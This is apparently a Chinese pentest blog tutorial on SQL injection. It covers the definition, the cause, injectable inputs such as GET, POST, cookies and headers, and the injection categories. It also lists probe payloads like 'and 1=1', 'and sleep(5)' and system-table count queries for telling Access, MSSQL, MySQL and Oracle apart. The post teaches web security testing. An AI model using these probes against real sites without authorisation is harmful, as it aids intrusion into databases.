 +++
date = "2016-06-19T20:18:48+08:00"
description = ""
draft = false
tags = ["injection"]
title = "SQL注入"
topics = ["Pentest"]

+++
<!--
 * @Author: reber
 * @Mail: 1070018473@qq.com
 * @Date: 2016-06-19 10:45:01
 * @LastEditTime: 2019-05-08 15:25:50
 -->

### 0x00 含义
sql注入是将代码插入(拼接)到应用(用户)的输入参数中，之后再将这些参数传递给后台的SQL服务器加以解析并执行的攻击，

总结起来就是攻击者将恶意代码拼接到sql语句并加以执行从而得到数据的过程。

### 0x01 成因
SQl语句未对用户参数进行严格过滤

### 0x02 可引发注入的地方
其实只要是客户端可控、参数值代入数据库查询的地方都可能存在注入，常见的如下，按出现频率排序：

* GET
* POST
* X-Forwarded-For
* Cookie
* User-Agent

### 0x03 注入分类
* 根据语法(较权威)
    * UNION query SQL injection(可联合查询注入)  
        只要页面有显示位即可使用，且注入速度很快
    * Error-based SQL injection(报错型注入)  
        没有显示位但用echo "mysql_error()"输出了错误信息，速度很快，但是语句较复杂
    * Boolean-based blind SQL injection(布尔型注入)  
        一次一个字节，速度慢，但只要有注入就能用
    * Time-based blind SQL injection(基于时间延迟注入)  
        超级慢，比布尔型注入慢几倍，但是通用性较强
    * Stacked queries SQL injection(堆叠注入)  
        只有SQL Server可以使用(可多语句查询注入)

* 根据类型
    * 整形  
        形如```"a.asp?ID=55"```，这类注入的参数是"数字"，因此称为"数字型注入点"。
    * 字符串型  
        形如```"b.asp?name=xiaoming"```这类注入的参数是"字符"，称为"字符型"注入点。  
    * 搜索型  
        指在进行数据搜索时没过滤搜索参数，直接通过搜索框表单提交。  

### 0x04 查找注入点
* 在URL中
    * and 1=1/and 1=2(整型)
    * 随即输入(整型)
    * -1/+1 回显上下页面(整型)
    * 单引号(字符型/整型)
    * and sleep(5) (判断页面返回时间)

* 在http头
    * X-Forwarded-For
    * Cookie
    * User-Agent

### 0x05 SQL注入之判断数据库类型
* 常见手段
    * 扫描端口、指纹、抓包查看http头信息、在网址后面直接判断

* 根据各数据库特有函数判断
    * Access:
    ```
    and (select count(*) from MSysAccessObjects)>0   返回正常说明是access
    and exists(select count(*) from表)
    ID=1 and (select count (*) from sysobjects)>0 返回异常
    ID=1 and (select count (*) from msysobjects)>0返回异常
    ```

    * SQLServer:
    ```
    and (select count(*) from sysobjects) >0   返回正常说明是mssql
    ID=1 and (select count (*) from sysobjects)>0 返回正常
    ID=1 and (select count (*) from msysobjects)>0返回异常
    ID=1 and left(version(),1)=5%23  //红色字体也可能是4
    ID=1 and exists(select id from sysobjects)
    ID=1 and len(user)>0 
    ID=1 CHAR(97)+CHAR(110)+CHAR(100)+CHAR(32)+CHAR(49)+CHAR(61)+CHAR(49)
    ```

    * MySQL:
    ```
    and length(user())>0   返回正常说明是MySQL
    id=2 and version()>0 返回正常
    id=2 and length(user())>0
    id=2 CHAR(97, 110, 100, 32, 49, 61, 49)
    ```

    * ORACLE:
    ```
    ID=1  and '1'||'1’='11'
    ID=1  and 0<>(select count(*) from dual) 
    ID=1 CHR(97) || CHR(110) || CHR(100) || CHR(32) || CHR(49) || CHR(61) || CHR(49)
    ```

* 其他方法
    ```
    "/*"是MySQL中的注释符，返回错误说明该注入点不是MySQL，继续提交如下查询字符：
    "--"是Oracle和MSSQL支持的注释符，如果返回正常，则说明为这两种数据库类型之一。继续提交如下查询字符：
    ";"是子句查询标识符，Oracle不支持多行查询，因此如果返回错误，则说明很可能是Oracle数据库。
    ```
